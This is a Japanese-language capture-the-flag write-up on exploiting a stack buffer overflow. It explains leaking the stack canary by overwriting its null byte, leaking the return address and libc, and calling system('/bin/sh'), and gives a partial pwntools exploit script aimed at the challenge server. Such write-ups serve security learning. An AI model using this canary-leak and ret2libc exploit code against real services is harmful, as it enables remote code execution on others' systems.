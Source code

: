 自明な BoF がある。

read は `length` **以下**のバイト列を`buf`に書き込むので、NULL 終端でリークできない問題は回避できる。ちなみに

```
lenght = read(0, buf, (ulong)length);
```

とされたらこの方法は使えないため、実世界のコードではこれで NULL 終端を入れる。

`length` をスタックからはみ出ない程度に大きくした上で、stack canary の 1byte 目の NULL を消して表示すると、canary が手に入る。

2 週目で `main` の帰りアドレスをリークして`libc`もリークする。

最後に canary と一緒に`system(b'/bin/sh\x00')`を呼べばオケ。
`rbp`だけ書き込み領域にセットするのを忘れずに。

exploit.py

```python
def make_io():
    if local:
        return gdb.debug("./patched")
        # return process("./patched")
    else:
        return remote("45.153.243.57", 1337)


def wait(wait_time=1, wait_prompt="waiting..."):
    if local:
        input(wait_prompt)
    else:
        sleep(1)


def send_num(io: tube, num: int):
    io.sendline(str(num).encode())
    wait()


def send_to_read_primitive(io: tube, byte: bytes):
    io.send(byte)
    wait()


def exploit():
    io = make_io()
    current = address["2023-09-23T20:48:23"]

    buf_length = current["canary_at"] - current["buf_start"]

    send_num(io, buf_length + 0x80)
    send_to_read_primitive(io, b"P" * (buf_length + 1))  # overwrite null byte

    io.readuntil(b"P" * (buf_length + 1))
    raw = io.read(8 - 1) + b"\x00"  # null byte
    canary = unpack(raw) << 8

    io.success(f"got canary! {hex(canary)}")

    current = address["2023-09-23T21:12:30"]
    send_num(io, magic)  # restart
    send_num(io, buf_length + 0x80)
    send_to_read_primitive(io, b"P" * (buf_length + 0x8 * 2))

    io.readuntil(b"P" * (buf_length + 0x8 * 2))
    main_ret = read_pointer_amd64(io)

```